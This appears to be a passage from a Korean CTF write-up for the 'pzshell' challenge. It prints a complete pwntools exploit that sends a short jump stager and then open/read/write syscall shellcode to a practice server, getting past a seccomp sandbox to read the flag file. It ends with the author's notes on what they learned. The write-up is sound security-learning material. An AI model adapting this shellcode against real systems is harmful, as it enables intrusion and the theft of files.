         
        p.send(asm(open)+asm(getdents)+asm(write))
        p.interactive()




- **두번째 시나리오(플래그 출력)**

        from pwn import *
        #context.log_level="DEBUG"
        context(arch="amd64",os="linux",log_level="DEBUG")
        p=remote("ctf.j0n9hyun.xyz",3038)
        #p=process("./pzshell")
        #gdb.attach(p,'code\nb *0xea0+$code\n')
        
        shell="xchg rsi,rdx;"
        shell=asm(shell)
        shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFC7+4), vma=0x1, arch='amd64',os='linux')
        shell=shell.ljust(8,"\xcc")
        log.info(len(shell))
        pause()
        p.send(shell)
        
        open="lea rdi,[rsp];"
        open+="xor rdx,rdx;"
        open+="xor rsi,rsi;"
        open+="mov rax,2;"
        open+="syscall;"
        
        filename="mov rsp,QWORD PTR fs:[0];"
        filename+=shellcraft.pushstr('S3cr3t_F14g')
        
        getdents="mov rdi,rax;"
        getdents+="lea rsi,[rsp];"
        getdents+="xor rdx,rdx;"
        getdents+="xor rax,rax;"
        getdents+="mov dx,0x3050;"
        getdents+="mov rax,0x4e;"
        getdents+="syscall;"
        
        read="mov rdx,0x300;"
        read+="mov rdi,rax;"
        read+="xor rax,rax;"
        read+="lea rsi,[rsp];"
        read+="syscall;"
        
        write="mov rdx,rax;"
        write+="xor rax,rax;"
        write+="xor rdi,rdi;"
        write+="xor rsi,rsi;"
        write+="mov rdi,1;"
        write+="mov rax,1;"
        write+="lea rsi,[rsp];"
        write+="syscall"
        
        
        p.send(asm(filename)+asm(open)+asm(read)+asm(write))
        p.interactive()





### 4. 몰랐던 개념

---

ezshell, pzshell, 문제를 풀면서 쉘코드를 직접 만드는 과정을 거쳐봤는데, 확실히 윈도우에서 먼저 해서 그런지 쉽게 이해하고 진행했다.

또한 seccomp 함수를 처음 들어봤는데 새로운 ORW 방법도 알게되어서 재밌는 문제였다.